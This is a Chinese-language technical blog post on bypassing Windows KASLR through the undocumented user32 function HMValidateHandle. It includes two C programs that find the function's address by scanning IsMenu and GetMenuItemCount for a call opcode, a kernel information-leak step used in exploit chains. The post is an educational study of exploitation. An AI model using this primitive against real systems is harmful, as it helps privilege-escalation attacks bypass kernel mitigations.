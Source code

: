 ```yaml
---
layout: default
title: HMValidateHandle
tags: windows
---
```


## 0x00 前言

一个典型的漏洞利用过程大概分为以下几步：

触发漏洞 —> 信息泄露 —> 构造读写原语 —> 代码执行

信息泄露的目的是利用一些泄露内核内存地址信息的方法，绕过 KASLR

## 0x01 KASLR

Windows vista 之后，微软对内核默认启用了 ASLR，即 KASLR，KASLR随机化了模块的加载基址，内核对象地址等，作为漏洞缓解的一种手段。对抗 KASLR 最直接的方法就是使用未公开函数或 Windows 内核信息泄露漏洞泄露内核内存地址信息。

## 0x02 HMValidateHandle

HMValidateHandle 是 user32.dll 中一个内部未公开的函数，他需要两个参数：handle、handle_type，通过查找句柄表，如果句柄与类型匹配，对象将会被复制到用户内存中，如果对象包含指向自身的指针，比如tagWND，HMValidateHandle 就能用来泄露内核内存地址。在 Windows 10 RS4 之后，微软关闭了这个函数。

## 0x03 查找HMValidateHandle

用 IDA 分析 user32.dll，查找到函数 isMenu：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image.png)

可以看到 HMVaildateHandle 在此函数中被调用，因此只要查找此函数，找到 opcode 等于 e80，就可以找到HMValidateHandle 的地址。

整个代码流程为：

![image-20210909183005095](https://gitee.com/tboom_is_here/bed/raw/master/img/image-20210909183005095.png)

## 0x04 代码

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");  // 检索 user32.dll 中的输出库函数 IsMenu 地址

  if (pIsMenu == NULL)
  {
    printf("Failed to find location of exported function 'IsMenu' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pIsMenu + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'IsMenu'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pIsMenu + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 IsMenu 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x", pHmValidateHandle);
}

```


![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_2.png)

## 0x05 代码2

有上面的操作流程可知，只要调用了 HMValidateHandle 的函数都可以用来寻找 HMValidateHandle 的函数地址。

IDA查看引用：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_3.png)

挑选偏移较小的函数，如 GetMenuItemCount：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_4.png)

首次调用的依然是 HMValideateHandle，因此可以直接修改代码为：

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pGetMenuItemCount = (BYTE*)GetProcAddress(hUser32, "GetMenuItemCount");  // 检索 user32.dll 中的输出库函数 GetMenuItemCount 地址

  if (pGetMenuItemCount == NULL)
  {
    printf("Failed to find location of exported function 'GetMenuItemCount' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pGetMenuItemCount + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'GetMenuItemCount'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pGetMenuItemCount + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pGetMenuItemCount + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 GetMenuItemCount 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x",pHmValidateHandle);
}
```

